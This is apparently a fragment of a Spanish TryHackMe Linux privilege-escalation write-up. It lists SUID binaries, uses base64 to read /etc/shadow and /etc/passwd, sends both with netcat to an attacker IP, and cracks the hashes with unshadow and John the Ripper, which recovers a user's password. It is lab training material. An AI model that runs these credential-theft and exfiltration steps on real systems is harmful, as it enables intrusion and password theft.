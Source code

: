 ```
/usr/bin/chsh
/usr/bin/Xorg
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1



```
#### Pasamos los shadow y passw y los crackeamos

```
> victima

[leonard@ip-10-10-164-245 tmp]$ base64 /etc/shadow | base64 -d > shadow
[leonard@ip-10-10-164-245 tmp]$ base64 /etc/passwd | base64 -d > passwd

leonard@ip-10-10-164-245 tmp]$ nc 10.6.13.236 6666 < shadow
[leonard@ip-10-10-164-245 tmp]$ nc 10.6.13.236 6666 < passwd

> kali

┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ nc -lnvp 6666 > shadow
listening on [any] 6666 ...
connect to [10.6.13.236] from (UNKNOWN) [10.10.164.245] 44662
                                                                                            
┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ nc -lnvp 6666 > passwd
listening on [any] 6666 ...
connect to [10.6.13.236] from (UNKNOWN) [10.10.164.245] 44664


┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ unshadow passwd shadow > cracked 

┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ john cracked -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (missy)     




```
